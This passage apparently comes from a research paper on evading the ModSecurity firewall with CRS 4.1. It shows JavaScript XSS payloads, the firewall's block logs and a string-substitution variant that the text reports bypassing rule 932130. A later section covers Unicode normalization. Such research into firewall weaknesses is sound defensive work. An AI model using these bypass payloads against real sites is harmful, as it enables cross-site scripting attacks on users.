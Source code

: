 \begin{lstlisting}[style=basicStyle, language=Python]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()
\end{lstlisting}

This payload was blocked by the evaluated firewall configuration:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} payload, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

On using a String Substitution strategy like mentioned in \ref{sec:stringreplace}, the curly brackets were substituted in the payload: 

\begin{lstlisting}[style=basicStyle, language=Python, caption=avoiding {} bypass, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput$'+[open+[]][0][16]+'2+2'+[open+[]][0][36]+':`')()
\end{lstlisting}

A request equipped with this payload successfully evaded the ModSecurity firewall using \acrshort{crs} 4.1. It validated successfully. 


\subsubsection{Forcing Unicode Normalization}

\label{sec:forcedunicodenorm}
As stated before, a payload containing the \verb|prompt()| function:

\begin{lstlisting}[style=basicStyle, escapeinside=\^\^, language=Python]
prompt(',',secret)
\end{lstlisting}

was blocked by the ModSecurity firewall using \acrshort{crs} 4.1 according to the rule:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt(',', secret)</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

